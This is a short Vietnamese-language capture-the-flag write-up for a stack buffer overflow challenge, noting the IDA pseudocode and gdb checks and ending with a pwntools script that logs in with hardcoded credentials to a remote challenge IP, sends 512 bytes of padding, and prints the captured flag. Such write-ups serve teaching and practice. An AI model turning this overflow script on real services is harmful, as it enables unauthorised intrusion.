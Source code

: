 ![image](https://user-images.githubusercontent.com/82592489/213152351-0a5a6887-1d29-434c-84c8-2e31b326e0b6.png)





Ý tưởng: sử dụng stackoverflow


bỏ vào ida ta được mã giả



![image](https://user-images.githubusercontent.com/82592489/213154991-86f209ad-d132-4f86-99ab-19e14c3256be.png)



sử dụng gdb:

đàu tiên chúng ta kiểm tra các chức năng bảo vệ

![image](https://user-images.githubusercontent.com/82592489/213157219-ce09327b-e339-4036-a31d-7d374e36bc42.png)





đặt breakpoint tại hàm read(flag) trong readflag và hàm read(secret) để lấy địa chỉ

để overflow từ vị trí secret đến flag ta cần 512 bytes


code:


```py
from pwn import *


r = remote("146.190.115.228",9994)
user = b"KCSC_4dm1n1str4t0r"
password = b"wh3r3_1s_th3_fl4g"
pay = b'A'*512
r.recvuntil(b"Username: ")
r.sendline(user)
r.recvuntil(b"Password: ")
r.sendline(password)

r.sendline(pay)
r.interactive()
```

flag: KCSC{w3ll_d0n3_y0u_g0t_my_s3cr3t_n0w_d04942f299}
